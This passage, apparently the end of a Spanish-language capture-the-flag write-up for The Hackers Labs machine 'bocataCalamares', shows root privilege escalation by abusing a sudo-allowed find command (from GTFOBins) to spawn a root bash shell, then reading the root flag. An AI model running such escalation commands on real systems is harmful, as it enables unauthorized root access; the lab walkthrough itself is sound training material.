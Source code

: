 Encontramos una:
* <a href="https://gtfobins.github.io/gtfobins/find/" target="_blank">GTFOBins: find</a>

Utilizaremos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-bocataCalamar/Captura13.png">
</p>

Probémoslo:
```bash
superadministrator@thehackerslabs-bocatacalamares:~$ sudo find . -exec /bin/bash \; -quit
root@thehackerslabs-bocatacalamares:/home/superadministrator# whoami
root
```

Ya solo busquemos la última flag:
```bash
root@thehackerslabs-bocatacalamares:/home/tyuiop# cd /root
root@thehackerslabs-bocatacalamares:~# ls
root.txt
root@thehackerslabs-bocatacalamares:~# cat root.txt
...
```
Y con esto, terminamos la máquina.


<br>
<br>
<div style="position: relative;">
  <h2 id="Links" style="text-align:center;">Links de Investigación</h2>
</div>


* https://github.com/sqlmapproject/sqlmap/wiki/Usage
* https://gtfobins.github.io/gtfobins/find/


<br>

# FIN

<footer id="myFooter">
    <!-- Footer para eliminar el botón -->
</footer>
